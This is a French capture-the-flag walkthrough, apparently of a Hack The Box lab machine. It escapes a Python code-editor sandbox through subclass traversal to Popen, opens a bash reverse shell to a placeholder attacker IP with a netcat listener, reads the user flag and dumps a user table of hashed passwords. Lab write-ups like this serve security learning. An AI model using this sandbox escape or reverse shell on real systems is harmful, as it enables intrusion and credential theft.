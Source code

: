 ## Enumération

- **IP**
```
10.10.11.62
```

- **Nmap**
```
nmap -sC -sV -A 10.10.11.62
```

![[nmap.png]]On trouve deux port ouverts dont le port **5000** avec le service **http**. On va donc essayer d'accéder au site web via : `http://10.10.11.62:5000`

![[code-htb.png]]

On a donc un éditeur de code python. L'application web ne laisse pas faire `import` ou `eval` mais on sait qu'une **application fait echo aux éxceptions**. On peut donc faire sortir une erreur  pour savoir un peu ce qui se passe en dessous:

```
print((()).__class__.__bases__[0].__subclasses__())
```

![[Capture du 2025-06-10 20-26-28.png]]

l a craché un buffet entier de classes. Plus de 400 sous-classes. Quelque part là dedans , on doit chercher le `Popen`. Pourquoi? Parce que Popen vit dans le module de sous-processus, et c'est comme ça qu'on posera les commandes Shell.

Ici, on n'a pas la fonction `.index()` donc on peut faire une recherche. On va donc essayer de détourner la logique du programme jusqu'à une réussite avec des **obfuscations Python

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[100].__name__)
```
!! Echec !!

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[200].__name__)
```
!! Echec !!

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[317].__name__)
```
!! **C'est là que se trouve le Popen** !!

![[popen.png]]


---

## Gain d'accès: 
On va maintenant ouvrir le port **4444** en écoute et attendre une connexion **TCP** avec **Netcat**:
```
nc -lvnp 4444
```

Maintenant que le port 4444 est en écoute, on peut exécuter ce code:
```
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
"bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))
```

Voilà, maintenant on est dans le **bash** de l'app
![[bash_app.png]]

On peut trouver l'**user flag** avec les commandes:
```
cd ..
ls
cat user.txt
```

![[user_flag.png]]

Dans le répertoire **/app/instance**, on peut trouver une base de donnée:

![[database.png]]

On peut accéder à cette base de données avec les commandes:
```
sqlite3 database.db
.tables
SELECT * FROM user
```

![[user_table.png]]

On constate qu'il y 2 utilisateurs avec leurs **user name** et des **mots de passe hashés**
